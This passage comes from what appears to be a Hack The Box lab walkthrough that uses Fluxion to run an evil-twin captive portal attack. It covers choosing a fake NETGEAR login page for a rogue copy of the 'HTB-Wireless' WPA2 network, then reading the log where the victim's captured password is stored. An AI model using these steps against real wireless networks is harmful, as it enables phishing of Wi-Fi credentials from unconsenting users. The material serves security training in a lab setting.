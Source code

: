 Select `Option 1 - disconnected` as the internet connectivity type for the rogue network.

```
[*] Select an internet connectivity type for the rogue network.

	[1] disconnected (recommended)
	[2] emulated
	[3] Back

[fluxion@twins]-[~] 1
```

Choose `Option 54 - NETGEAR` as the captive portal interface.

```
[*] Select a captive portal interface for the rogue network.

                      ESSID: "HTB-Wireless" / WPA2                              
                    Channel:  1                                                 
                      BSSID:  52:CD:8C:79:AD:87 ([N/A])                   

		  <SNIP>
          [48] HUAWEI                                               it          
          [49] HUAWEI                                              tur          
          [50] HUAWEI                                               zh          
          [51] kpn                                                  nl          
          [52] Livebox                                              fr          
          [53] movistar                                             es          
          [54] NETGEAR                                              en          

[fluxion@twins]-[~] 54
```

After pressing enter, six new tabs will open as the attack begins. When the victim connects to the rogue AP and submits their credentials, the tabs will close and students will see the following message.

![[HTB Solutions/Others/z. images/75c8581562d47814b1b8a7a1befed188_MD5.jpg]]

With the attack now complete, students need to examine the log file to obtain the password.

Code: shell

```shell
cat /opt/fluxion/attacks/Captive\ Portal/netlog/HTB-Wireless-52\:CD\:8C\:79\:AD\:87.log 
```

```
root@twins:~# cat /opt/fluxion/attacks/Captive\ Portal/netlog/HTB-Wireless-52\:CD\:8C\:79\:AD\:87.log 

FLUXION 6.12

SSID: "HTB-Wireless"
BSSID: 52:CD:8C:79:AD:87 ()
Channel: 1
Security: WPA2
Time: 00:00:13
Password: {hidden}
Mac: unknown ()
IP: unknown
```
